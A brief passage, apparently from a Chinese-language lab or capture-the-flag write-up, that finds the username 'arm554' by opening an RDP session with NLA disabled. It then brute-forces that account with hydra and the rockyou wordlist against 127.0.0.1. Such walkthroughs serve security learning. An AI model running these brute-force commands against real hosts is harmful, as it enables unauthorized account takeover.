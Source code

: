 ```bash
xfreerdp /v:127.0.0.1 -sec-nla /u:""
```

![Alt text](./1512715662641.png)

登陆失败之后，得到账户为`arm554`,进行爆破：

```bash
root@kali:~# hydra -t 8 -V -l arm554 -P /usr/share/wordlists/rockyou.txt rdp://127.0.0.1
```

![Alt text](./1512716038392.png)
